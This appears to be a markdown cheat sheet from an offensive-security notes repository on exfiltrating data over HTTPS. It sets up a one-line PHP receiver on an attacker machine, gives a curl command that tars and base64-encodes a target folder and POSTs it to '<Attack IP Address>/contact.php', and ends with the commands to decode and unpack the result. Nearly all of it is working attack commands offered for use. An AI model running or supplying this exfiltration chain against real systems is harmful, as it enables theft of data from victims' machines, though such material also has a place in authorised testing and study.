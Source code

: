 # Data Exfiltration
### Exfiltrate Base64 encoded data via POST request over HTTPS to PHP server, with SSL certificate.
##### On attack machine, create a PHP file that will receive POST request and write data to a file.
```bash
# contact.php - see contact.php in DataExfiltation folder.
<?php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>
```
##### From target, use curl to send POST request that tars and encodes the data.
```bash
curl --data "$(tar zcf - /tmp/datafolder | base64)" https://<Attack IP Address>/contact.php
```
##### From attack machine, decode file, redirect to tar, and extract.
```bash
cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar
```

### Data Exfiltration References
[POST HTTP](https://en.wikipedia.org/wiki/POST_(HTTP))